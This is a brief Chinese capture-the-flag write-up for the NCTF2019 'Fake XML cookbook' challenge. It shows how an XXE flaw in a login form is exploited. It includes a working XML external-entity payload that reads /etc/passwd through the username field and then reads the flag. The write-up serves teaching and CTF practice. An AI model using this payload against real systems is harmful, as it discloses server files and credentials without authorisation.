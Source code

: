 # [NCTF2019]Fake XML cookbook

## 知识点

`XXE`

## 解题

进入题目发现登录框

![](./img/[NCTF2019]Fake XML cookbook-2.png)

看题目提示猜测`XXE`,随便输入账号密码登录抓包

![](./img/[NCTF2019]Fake XML cookbook-1.png)

使用`xxe`的`payload`看一下有没有回显

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY a SYSTEM "file:///etc/passwd" >
]>
<user><username>&a;</username><password>123</password></user>
```

![](./img/[NCTF2019]Fake XML cookbook-3.png)

发现能正常回显和读取文件，尝试读取`flag`

![](./img/[NCTF2019]Fake XML cookbook-4.png)